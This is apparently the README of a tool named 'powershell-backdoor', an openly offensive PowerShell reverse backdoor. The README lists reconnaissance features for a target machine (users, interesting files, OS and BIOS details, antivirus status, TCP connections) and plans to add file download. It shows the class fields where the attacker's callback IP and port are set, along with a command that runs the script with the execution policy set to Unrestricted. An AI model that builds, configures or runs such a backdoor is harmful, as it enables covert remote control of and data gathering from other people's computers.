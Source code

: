 # powershell-backdoor
A simple Powershell Reverse Backdoor

# Features / To Do
## Features 
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
## To Do 
* Download Files from remote system
* Find Writeable Directories
* Get Windows Update Status

# Setup
Find the class Backdoor, and change the following lines 
```powershell
class Backdoor {
  # Change this to the correct ip/port
  [string]$ipAddress = "127.0.0.1"
  [int]$port = 4444
```

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
